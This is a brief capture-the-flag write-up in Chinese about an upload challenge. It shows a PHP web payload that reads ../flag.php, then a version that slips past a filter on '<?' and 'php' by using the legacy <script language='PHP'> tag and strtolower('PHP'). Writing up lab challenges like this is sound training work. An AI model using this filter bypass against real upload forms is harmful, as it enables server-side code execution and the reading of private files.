 
# Upload

* 发现能上传php的文件，但是<?   和 php 被过滤了
``` 
<?php
    $filename = "../flag.php";
    $handle = fopen($filename, "r");//读取二进制文件时，需要将第二个参数设置成'rb'
    
    //通过filesize获得文件大小，将整个文件一下子读到一个字符串中
    $contents = fread($handle, filesize ($filename));
	echo  $contents;
    fclose($handle);
?>
```
* 将<?php 改为<script language="PHP">， 文件中的php改为.strtolower("PHP")
``` 
<script language="PHP">
    $filename = "../flag.".strtolower("PHP");
    $handle = fopen($filename, "r");//读取二进制文件时，需要将第二个参数设置成'rb'
    
    //通过filesize获得文件大小，将整个文件一下子读到一个字符串中
    $contents = fread($handle, filesize ($filename));
	echo  $contents;
    fclose($handle);
</script>
```